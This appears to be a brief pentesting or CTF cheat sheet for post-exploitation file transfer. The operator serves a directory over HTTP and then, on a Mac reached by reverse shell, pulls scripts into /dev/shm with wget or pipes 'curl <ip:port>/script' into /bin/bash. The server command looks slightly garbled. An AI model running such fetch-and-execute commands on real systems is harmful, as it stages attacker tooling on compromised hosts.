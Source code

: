 ## PYTHON server 

**on my terminal**
  (open the server in the dir you have the scripts so that it will wget all the files of the dir on the mac)

$> python3 -m server 8000

**on the mac so obtained/revershell**

dir > /dev/shm (wget any script in this dir)

$> wget -r <my ip> (do ifconfig to know the ip)

  or

$> curl <my ip:port>/script | /bin/bash

